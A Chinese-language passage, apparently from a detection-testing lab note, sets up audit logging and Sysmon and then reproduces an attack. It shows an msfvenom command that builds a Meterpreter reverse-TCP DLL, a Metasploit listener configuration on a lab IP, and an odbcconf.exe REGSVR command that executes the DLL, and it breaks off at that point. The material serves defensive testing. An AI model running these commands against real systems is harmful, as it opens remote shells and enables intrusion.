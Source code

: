 **日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建、网络连接和镜像加载事件。

## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows 7，IP：192.168.126.149，Sysmon已部署
- **工具**：Metasploit（`msfvenom`和`exploit/multi/handler`）

### 测试过程

#### 1. 生成恶意DLL（攻击机）

**命令**：
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=53 -f dll -o payload.dll
```

**说明**：
- 生成32位Meterpreter反向Shell DLL，保存为`payload.dll`。
- 需将`payload.dll`传输到靶机（如通过SMB或手动复制）。

#### 2. 配置Metasploit监听（攻击机）

**命令**：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.126.146
set LPORT 53
set AutoRunScript migrate -f
exploit
```

**输出**：
```
[*] Started reverse TCP handler on 192.168.126.146:53
```

**说明**：
- 配置反向TCP Shell监听，端口53，`AutoRunScript migrate -f`自动迁移到其他进程（如`notepad.exe`）以提升持久性。

#### 3. 靶机执行Payload

- 将`payload.dll`复制到靶机`C:\`目录。

**命令**：
```cmd
C:\Windows\SysWOW64\odbcconf.exe /A {REGSVR C:\payload.dll}
```
